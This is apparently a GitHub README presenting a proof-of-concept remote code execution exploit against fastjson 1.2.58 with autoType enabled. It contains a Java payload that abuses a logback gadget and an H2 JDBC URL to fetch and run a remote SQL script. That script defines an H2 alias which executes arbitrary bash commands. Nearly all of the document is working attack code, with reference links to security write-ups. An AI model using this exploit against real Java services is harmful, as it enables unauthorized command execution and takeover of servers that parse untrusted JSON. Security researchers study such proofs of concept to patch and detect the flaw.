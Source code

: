 # fastjson-1.2.58-rce
#### need: 
```
fastjson autoType is enabled
h2 database and some jar
```

![](./fastjson-1.2.58.jpg)


### Download fastjson-1.2.58.jar
http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.58/fastjson-1.2.58.jar


### exp.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class exp {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}";
        JSONObject json = JSON.parseObject(payload);
        json.toJSONString();
    }
}
```

### inject.sql
`you can create an function on H2 that calls a java code`
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc')

```

## 参考链接

https://www.freebuf.com/vuls/209394.html

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
